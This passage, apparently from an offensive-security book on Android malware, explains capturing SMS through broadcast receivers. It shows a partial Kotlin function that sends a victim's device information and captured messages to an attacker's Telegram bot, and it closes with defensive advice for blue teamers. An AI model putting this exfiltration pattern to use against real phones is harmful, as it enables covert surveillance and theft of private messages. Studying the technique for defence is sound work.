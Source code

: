 As you can see, everything is worked perfectly! =^..^=    

Of course, in real cases we need to bypass security measures, like Google Play protection etc, etc. But for ethical reasons, I can not show this concepts in this book.     

Also you need to send some information about victim's phone, like this (`HackNetwork`):     

```kotlin
// ...
// function to send message using OkHttp to Telegram Bot API
fun sendTextMessage(message: String) {
    val token = getTokenFromAssets()
    val chatId = getChatIdFromAssets()
    val info = getDeviceName() // like in the previous examples
    val meow = "Meow! ♥️\uFE0F"
    val messageToSend = "$info\n\n$message\n\n$meow\n\n"
    //....
}
```

This type of attack demonstrates the abuse of system broadcasts and is particularly dangerous because the app does not require the user to do anything except allow permissions.    

This technique is used by software like [Exodus](https://attack.cloudfall.cn/software/S0405/), [INSOMNIA](https://attack.cloudfall.cn/software/S0463/) and [MazarBOT](https://attack.cloudfall.cn/software/S0303/) in the wild.    

I hope this section is useful for blue teamers: monitor and audit apps that request sensitive permissions, like `RECEIVE_SMS`. Ensure that they need this permission for legitimate purposes.      

[Broadcasts](https://developer.android.com/develop/background-work/background-tasks/broadcasts)     
[BroadcastReceiver](https://developer.android.com/reference/android/content/BroadcastReceiver)     
[MITRE ATT&CK: Capture SMS Messages](https://attack.cloudfall.cn/techniques/T1412/)     
[Exodus](https://attack.cloudfall.cn/software/S0405/)    
[INSOMNIA](https://attack.cloudfall.cn/software/S0463/)    
[MazarBOT](https://attack.cloudfall.cn/software/S0303/)      
